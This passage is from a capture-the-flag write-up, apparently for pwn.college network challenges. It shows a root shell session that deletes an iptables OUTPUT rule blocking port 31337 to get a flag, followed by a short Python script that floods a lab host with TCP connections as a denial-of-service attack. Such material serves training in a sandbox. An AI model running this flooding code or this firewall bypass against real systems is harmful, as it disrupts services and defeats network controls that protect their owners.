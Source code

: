 ```sh
root@ip-10-0-0-1:~/intercepting_communication# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
DROP       tcp  --  anywhere             anywhere             tcp dpt:31337
root@ip-10-0-0-1:~/intercepting_communication# iptables -D OUTPUT 1
root@ip-10-0-0-1:~/intercepting_communication# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
root@ip-10-0-0-1:~/intercepting_communication# nc 10.0.0.2 31337 -N
pwn.college{flag_here}
```

# Denial of Service 1,2

We can't use `ping`. But it's not difficult to write python script to do DoS attack.

```py
import concurrent.futures
import socket

def attack(ip, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, 31337))
    s.send(("GET / HTTP/1.1\r\n").encode())
    s.send(("Host: " + ip + "\r\n\r\n").encode())
    s.close()

def worker(index):
    attack("10.0.0.2", 31337)

with concurrent.futures.ProcessPoolExecutor(max_workers=100) as executor:
    futures = [executor.submit(worker, i) for i in range(2049)]

concurrent.futures.wait(futures)
```

# Denial of Service 3
